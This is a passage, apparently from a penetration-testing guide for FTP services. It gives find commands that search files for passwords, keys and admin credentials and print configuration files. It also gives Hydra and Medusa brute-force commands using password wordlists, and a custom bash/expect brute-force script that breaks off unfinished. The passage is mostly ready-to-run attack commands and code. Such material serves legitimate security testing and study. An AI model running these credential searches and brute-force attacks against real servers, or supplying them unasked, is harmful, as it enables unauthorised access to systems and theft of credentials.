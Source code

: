 ```bash
find . -name "*.txt" -exec grep -l "password\|user\|admin\|key" {} \;
find . -name "*.conf" -exec cat {} \;
find . -name "*.log" -exec tail -50 {} \;
```

### Attack Vector 2: Brute Force Authentication

#### Hydra-based Brute Force
```bash
# Single username brute force
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://<target>

# Username list brute force  
hydra -L userlist.txt -P passwordlist.txt ftp://<target>

# Common FTP credentials brute force
hydra -L ftp-users.txt -P ftp-passwords.txt -t 4 ftp://<target>

# Advanced hydra options
hydra -L users.txt -P passwords.txt -t 16 -f -V ftp://<target>
# -t 16: 16 parallel threads
# -f: Stop after first successful login
# -V: Verbose output
```

#### Medusa-based Brute Force
```bash
# Medusa alternative approach
medusa -h <target> -u admin -P passwords.txt -M ftp
medusa -h <target> -U users.txt -P passwords.txt -M ftp -t 10

# Medusa with combo file (username:password format)
medusa -h <target> -C combo.txt -M ftp
```

#### Custom Brute Force Script
```bash
#!/bin/bash
# ftp-brute.sh
TARGET=$1
USERLIST=$2
PASSLIST=$3

echo "Starting FTP brute force against $TARGET"

while IFS= read -r user; do
    while IFS= read -r pass; do
        echo "Trying $user:$pass"
        timeout 10 expect << EOF
        spawn ftp $TARGET
        expect "Name"
        send "$user\r"
        expect "Password:"
        send "$pass\r"
        expect {
            "230" {
                puts "SUCCESS: $user:$pass"
                send "quit\r"
                exit 0
            }
            "530" {
                send "quit\r"
            }
        }
```